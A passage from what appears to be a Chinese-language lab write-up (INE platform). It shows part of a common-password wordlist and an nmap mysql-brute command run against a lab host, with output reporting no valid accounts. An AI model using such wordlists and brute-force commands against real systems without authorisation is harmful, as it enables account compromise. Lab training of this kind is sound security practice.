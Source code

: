 ```
tucker
cookie1
shelly
catalina
147852369
beckham
simone
nursing
iloveyou!
eugene
torres
damian
123123123
joshua1
bobby
babyface
andre
donald
daniel1
panther
dinamo
mommy
juliana
cassandra
trustno1
freedom1
14344
autumn
mendoza
sq!us3r
adminpasswd
raspberry
74k&^*nh#$
arcsight
promise
karaf
vagrant
```
我们可以尝试用获取的用户名和这些密码进行mysql暴力破解，虽然最终一无所获。

```
root@INE:~# cd /root/Desktop/wordlists/
root@INE:~/Desktop/wordlists# nmap --script=mysql-brute --script-args userdb=usernames.txt,passdb=100-common-passwords.txt pc1.ine.local
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-19 09:16 IST
Nmap scan report for pc1.ine.local (192.129.50.3)
Host is up (0.0000090s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
3306/tcp open  mysql
| mysql-brute: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 1010 guesses in 1 seconds, average tps: 1010.0
MAC Address: 02:42:C0:81:32:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds
```
